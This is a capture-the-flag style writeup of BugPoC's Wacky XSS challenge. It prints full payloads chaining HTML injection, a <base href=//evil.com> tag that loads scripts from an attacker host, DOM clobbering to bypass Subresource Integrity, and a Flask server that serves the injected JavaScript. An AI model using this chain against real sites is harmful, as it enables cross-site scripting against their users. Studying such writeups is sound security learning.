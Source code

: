 ```yaml
---
layout: post
title:  "Wacky XSS challenge writeup"
description: In this writeup I will show my solution for Wacky XSS challenge.
---
```

Hi, here is my writeup of bugpoc's XSS challenge so we had a URL wacky.buggywebsite.com which shows this page.


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-20-1024x614.png)


Here we had a textbox where we could enter text and it shows text with some fancy style but we were not allowed to enter some characters such as <, >, &, %, *


we had two JS file one was script.js and another was frame-analytics.js. In script.js we had


```javascript
var isChrome = /Chrome/.test(navigator.userAgent) && /Google Inc/.test(navigator.vendor);
	if (!isChrome){
		document.body.innerHTML = `
			<h1>Website Only Available in Chrome</h1>
			<p style="text-align:center"> Please visit <a href="https://www.google.com/chrome/">https://www.google.com/chrome/</a> to download Google Chrome if you would like to visit this website</p>.
		`;
	}
	
document.getElementById("txt").onkeyup = function(){
	this.value = this.value.replace(/[&*<>%]/g, '');
};


document.getElementById('btn').onclick = function(){
	val = document.getElementById('txt').value;
	document.getElementById('theIframe').src = '/frame.html?param='+val;
};

```


due to the replace function in above some special characters were replacing but here we could see that we have another file frame.html with a parameter so I opened it and I saw that value of parameter was reflecting in the title of webpage


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-21-1024x614.png)


and also it was not filter means we have html injection so after closing the title tag we could execute HTML code. Now here we could not execute JavaScript directly because their was CSP (Content Security policy) so I started analyzing CSP and found that base-uri was missing.


*What can attacker do when base-uri is missing from CSP and we have a html injection?*


*Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain.*


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Untitled-1-1024x576.png)


I hope you got the use of base tag from above image. Lets confirm this in challenge so I added base tag in parameter


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-23-1-1024x614.png)


Here movie.pm4 was loading from evil.com. Now we had to load JavaScript file from our server and frame.html should be in iframe because if its not in iframe then frame-analytics.js will not load so I created payload to load JS file from another domain


```
Payload : </title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=aman</title><base href=//evil.com>' id='theIframe' name=iframe></iframe></body></html><!--
```


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-24-1024x614.png)


and We were able to load frame-analytics.js from another domain. Now I setup my flask server to load my JavaScript code.


```python
from flask import Flask, request, send_from_directory, Response
from flask_cors import CORS, cross_origin


app = Flask(__name__, static_url_path='')
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

@app.route("/files/<path:path>")
@cross_origin()
def exploit(path):
    jscode = """
    alert(document.domain);
        """;
    return Response(jscode, mimetype='application/javascript')

if __name__ == '__main__':
    app.run(debug=True)
```


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-25-768x461.png)


Now the response in console was different and It was giving error because of Subresource Integrity in script tag.


***Subresource Integrity (SRI)** is a security feature that enables browsers to verify that resources they fetch (for example, from a CDN) are delivered without unexpected manipulation. It works by allowing you to provide a cryptographic hash that a fetched resource must match.*


Its means we had to change the integrity attribute’s value also to load our script so I started looking for source code and found this.


```javascript
window.fileIntegrity = window.fileIntegrity || {
	'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
	'algorithm' : 'sha256',
	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
	'creationtime' : 1602687229
}


// securely add the analytics code into iframe
script = document.createElement('script');
script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
script.setAttribute('crossorigin', 'anonymous');
analyticsFrame.contentDocument.body.appendChild(script);
```


If you don’t understand this then let me explain. This code is checking If value of window.fileIntegrity is assigned then use that value to generate script tag with integrity’s value window.fileIntegrity.value and fileIntegrity was a global variable.


so after this we had to use Dom Clobbering technique to control the global variable fileIntegrity


***DOM clobbering** is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.*


It was easy to bypass this SRI using Dom Clobbering so I used anchor tag with id and name to control integrity’s value.


```
paylaod : <a id=fileIntegrity><a id=fileIntegrity name=value href=theamanrawat>
```


this payload will defined the value of window.fileintegrity and we were able to load our JavaScript code.


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-27-1024x614.png)


Now alert was blocked because of sandbox in iframe so we had to bypass this and bypassing this sandbox was very simple because we can execute JavaScript function such as createElement(), console.log() and etc..


To bypass this I created script tag outside the sandbox iframe and my final payload was this


```
</title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=aman</title><a id=fileIntegrity><a id=fileIntegrity name=value href=theamanrawat><base href=//myserver.com>' id='theIframe' name=iframe></iframe></body></html><!--
```


I sent this payload and the alert was executed :)


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-17-edited.png)


# Now its time to create working PoC on bugpoc.


I used **mock endpoint builder** for JavaScript code


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-29-edited.png)


and then **Flexible Redirector** for redirecting all path to mock endpoint.


Now I created front end poc to run the exploit.


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-31-1024x614.png)


That’s it for this writeup. You can check the my PoC on https://bugpoc.com/poc#bp-uvrG5pXO & password : `SHYwasp53`


Thanks for reading.
